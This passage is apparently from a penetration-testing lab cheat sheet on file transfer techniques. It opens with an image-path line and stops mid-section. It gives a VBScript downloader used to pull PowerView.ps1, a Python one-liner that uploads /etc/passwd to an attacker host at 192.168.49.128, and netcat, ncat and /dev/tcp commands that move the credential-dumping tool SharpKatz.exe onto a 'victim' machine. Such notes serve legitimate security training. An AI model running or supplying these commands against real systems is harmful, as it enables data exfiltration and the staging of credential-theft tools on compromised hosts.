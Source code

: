 {% highlight jsx %}
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
{% endhighlight %}

- Save to wget.vbs

`C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`

## Upload Operations using Python3

`XeroCyb3r@htb[/htb] python3 -m uploadserver`

`XeroCyb3r@htb[/htb] python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`

# Miscellaneous File Transfer Methods

[Netcat](https://sectools.org/tool/netcat/) (often abbreviated to `nc`) is a computer networking utility for reading from and writing to network connections using TCP or UDP, which means that we can use it for file transfer operations.

## Netcat

**Compromised:** `victim@target:~ nc -l -p 8000 > SharpKatz.exe`

`XeroCyb3r@htb[/htb] nc -q 0 192.168.49.128 8000 < SharpKatz.exe`

**Sending File as Input**

`XeroCyb3r@htb[/htb] sudo nc -l -p 443 -q 0 < SharpKatz.exe`

`victim@target:~ nc 192.168.49.128 443 > SharpKatz.exe`

OR

`victim@target:~ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`

## Ncat

Compromised: `victim@target:~ ncat -l -p 8000 --recv-only > SharpKatz.exe`

`XeroCyb3r@htb[/htb] ncat --send-only 192.168.49.128 8000 < SharpKatz.exe`

**Sending File as Input**
